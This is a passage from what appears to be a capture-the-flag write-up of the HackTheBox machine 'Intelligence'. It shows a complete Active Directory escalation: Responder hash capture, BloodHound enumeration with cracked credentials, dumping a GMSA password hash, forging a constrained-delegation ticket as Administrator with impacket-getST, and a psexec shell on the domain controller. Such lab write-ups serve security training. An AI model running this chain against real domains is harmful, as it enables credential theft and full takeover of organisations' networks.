❯ sudo responder -I tun0 -A -v #
```



and that hash cracked with john


<!--Ted.Graves:Mr.Teddy-->

# Privesc

## BloodHound

* https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound

**ingesting AD**

[BloodHound.py](https://github.com/fox-it/BloodHound.py) is a Python based ingestor for BloodHound which reads data from Active Directory and create a database which can be read from BloodHound.
```bash
pip install bloodhound
```

Running 
```bash
❯ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -c all
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 42 users
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
INFO: Skipping enumeration for svc_int.intelligence.htb since it could not be resolved.
INFO: Done in 01M 10S
```

Start BloodHound and load all json file created by bloodhound-python ingestor

And here is the shortest path to the DOMAIN.



1. `SVC_INT@INTELLIGENCE.HTB` is a Group Managed Service Account. The group `ITSUPPORT@INTELLIGENCE.HTB` can retrieve the password for the GMSA `SVC_INT@INTELLIGENCE.HTB`.
   * The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA, then run local services as the GMSA. An attacker with control of an authorized principal may abuse that privilege to impersonate the GMSA.
2. The user `SVC_INT@INTELLIGENCE.HTB` has the constrained delegation privilege to the computer `S-1-5-21-4210132550-3389855604-3437519686-1000`.
   * The constrained delegation primitive allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer.

## Reading GMSA Password

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#gmsa-attributes-in-the-active-directory

Reading GMSA passwords with [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
```bash
❯ python gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l dc.intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::b98d4cef68f72a98dfeed732d1b1abca
```

## Silver ticket Attack

"If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to." ; **[Source](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)**

And "svc_int$" has the constrained delegation privilege to the computer `S-1-5-21-4210132550-3389855604-3437519686-1000` which is a member of the group `ENTERPRISE DOMAIN CONTROLLERS@INTELLIGENCE.HTB`.

* https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

Before generating Silver ticket, sync time with the target domain: `sudo ntpdate 10.10.10.248`

Generating silver ticket with impacket getST.py script
```bash
❯ impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes b98d4cef68f72a98dfeed732d1b1abca:b98d4cef68f72a98dfeed732d1b1abca
```



Then Store `Administrator.ccache` path in a "`KRB5CCNAME`" environment variable
```bash
export KRB5CCNAME=./Administrator.ccache
```

Run `impacket-psexec` to get shell
```bash
❯ impacket-psexec intelligence.htb/Administrator@dc.intelligence.htb -k -no-pass
```

